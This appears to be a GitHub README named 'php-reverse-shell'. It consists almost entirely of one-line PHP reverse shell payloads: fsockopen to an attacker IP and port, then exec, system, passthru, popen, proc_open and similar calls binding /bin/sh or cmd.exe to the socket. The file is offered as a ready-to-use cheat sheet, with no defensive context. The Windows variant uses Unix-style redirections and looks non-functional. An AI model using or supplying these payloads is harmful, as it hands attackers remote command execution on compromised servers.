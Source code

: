 # php-reverse-shell



![image](https://user-images.githubusercontent.com/79219451/116995519-03dc4480-ac8f-11eb-9331-d247ecb58d44.png)





**PHP**
```

php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",PORT);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",PORT);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("IP",PORT);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",PORT);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",PORT);popen("/bin/sh -i <&3 >&3 2>&3", "r");'





```

**windows**
```
php -r '$sock=fsockopen("IP",PORT);exec("C:\Windows\system32\cmd.exe -i <&3 >&3 2>&3");'
```

**socat**
```
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
